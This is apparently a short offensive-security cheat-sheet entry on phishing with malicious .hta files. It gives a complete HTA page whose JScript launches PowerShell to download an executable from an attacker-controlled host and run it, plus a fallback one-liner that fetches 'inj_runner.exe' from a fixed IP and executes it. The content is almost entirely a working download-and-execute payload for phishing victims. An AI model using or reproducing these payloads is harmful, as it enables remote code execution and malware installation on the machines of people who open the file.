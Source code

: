 ## Phishing via .hta files

- if Office does not appear to be working for you, can try sending an email with a malicious .hta file link.

### PowerShell Download Cradle

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell iwr -uri http://IP:PORT/file.exe -outfile
C:\\path\\to\\file.exe;C:\\path\\to\\file.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>

```
if the above doesnt work try
```
var ress = shell.Run("powershell.exe wget http://172.21.23.10/inj_runner.exe -o C:\\users\\public\\runner.exe; C:\\users\\public\\runner.exe");
```
